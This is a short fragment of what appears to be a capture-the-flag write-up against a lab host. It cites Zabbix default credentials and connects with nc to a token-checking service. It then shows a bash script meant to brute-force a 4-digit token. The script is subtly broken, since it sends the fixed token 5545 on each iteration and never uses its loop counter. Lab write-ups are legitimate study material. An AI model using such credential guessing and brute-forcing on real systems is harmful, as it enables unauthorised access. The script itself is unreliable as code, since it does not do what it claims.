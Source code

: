 ```
(thank's Google)
1 Login and configuring user - Zabbix
https://www.zabbix.com › manual › quickstart › login
This is the Zabbix "Welcome" screen. Enter the user name Admin with password zabbix to log in as a Zabbix superuser. When logged in, you will see 'Connected as ...
```

# Second step on the "CLI Password Retriever", type an 4 DIGIT "token" : 

```
root@kali:~# nc 10.10.28.75 10020

                          ___  __    ____                     
                  ___    / __)(  )  (_  _)   ___              
         ___  ___(___)  ( (__  )(__  _)(_   (___)___  ___     
        (___)(___)       \___)(____)(____)      (___)(___)    
         ____   __    ___  ___  _    _  _____  ____  ____     
        (  _ \ /__\  / __)/ __)( \/\/ )(  _  )(  _ \(  _ \    
         )___//(__)\ \__ \\__ \ )    (  )(_)(  )   / )(_) )   
        (__) (__)(__)(___/(___/(__/\__)(_____)(_)\_)(____/    
         ____  ____  ____  ____  ____  ____  _  _  ____  ____ 
        (  _ \( ___)(_  _)(  _ \(_  _)( ___)( \/ )( ___)(  _ \ 
         )   / )__)   )(   )   / _)(_  )__)  \  /  )__)  )   / 
        (_)\_)(____) (__) (_)\_)(____)(____)  \/  (____)(_)\_) 



        Enter your username : 
Admin            
        Sending token to Admin@localhost.thm

        Type your 4 digit token : 
```


# Let's buid a script to brut that (In BASH OFC) :

```
root@kali:/tmp# cat brut-it 
#!/bin/bash

for token in $(seq 1 9999); do
        echo Admin > rep.dat #Build the first response with the Username 
        echo 5545 >> rep.dat #Try the DIGIT 5545
        echo "[-] Request num $token" #LOG
        nc 10.10.28.75 10020 < rep.dat #Payload
done

```
